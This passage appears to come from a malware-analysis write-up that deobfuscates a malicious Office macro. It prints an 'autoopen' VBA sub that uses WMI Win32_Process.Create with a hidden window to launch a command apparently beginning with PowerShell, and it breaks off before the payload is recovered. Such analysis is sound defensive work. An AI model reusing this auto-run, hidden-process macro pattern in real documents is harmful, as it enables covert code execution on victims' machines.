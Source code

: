 
#### Analysis

The output show three files. I’ll start with the obvious one, which shows an
`autoopen` sub. There’s some obfuscation that comes from declaring never used
dims and values. I’ll clear that out, leaving:

    
    
    Sub autoopen()
        H719_241
    End Sub
    
    Sub H719_241()
        Set S19851 = GetObject(CStr("Winmgmts:Win32_ProcesSstartup"))
        S19851.ShowWindow = vbFalse - vbFalse
        Set A165533 = GetObject(CStr("Winmgmts:Win32_ProcesS"))
        A165533.Create J5438330 + "po" + a426725 + O3_4045.R1136_ + O3_4045.s250__65 + r55104, d10_94, S19851, N50607
    End Sub
    

This code creates an instance of the WMI class `Winmgmts:Win32_ProcessStartUp`
and sets the `ShowWindow` value to 0 (false). Then it uses the `Create` method
from the `Winmgmts:Win32_Process` class to start a process. But what is that
process?

The `create` method takes the following arguments according [to Microsoft
documentation](https://docs.microsoft.com/en-
us/windows/desktop/cimwin32prov/create-method-in-class-win32-process):

    
    
    uint32 Create(
      [in]  string               CommandLine,
      [in]  string               CurrentDirectory,
      [in]  Win32_ProcessStartup ProcessStartupInformation,
      [out] uint32               ProcessId
    );
    

The code defines those arguments as:

    
    
    J5438330 + "po" + a426725 + O3_4045.R1136_ + O3_4045.s250__65 + r55104, d10_94, S19851, N50607
    

Most of those variables are undefined. Removing those leaves:

    
    
    "po" + O3_4045.R1136_ + O3_4045.s250__65, 0, S19851, 0
    

I can now see the current directory and the output PID are null, and the
`ProcessStartupInformation` is the object defined earlier to be hidden. That
leaves only the Command Line.

`O3_4045` is a visual basic class, one that `olevba` shows it as empty:

    
    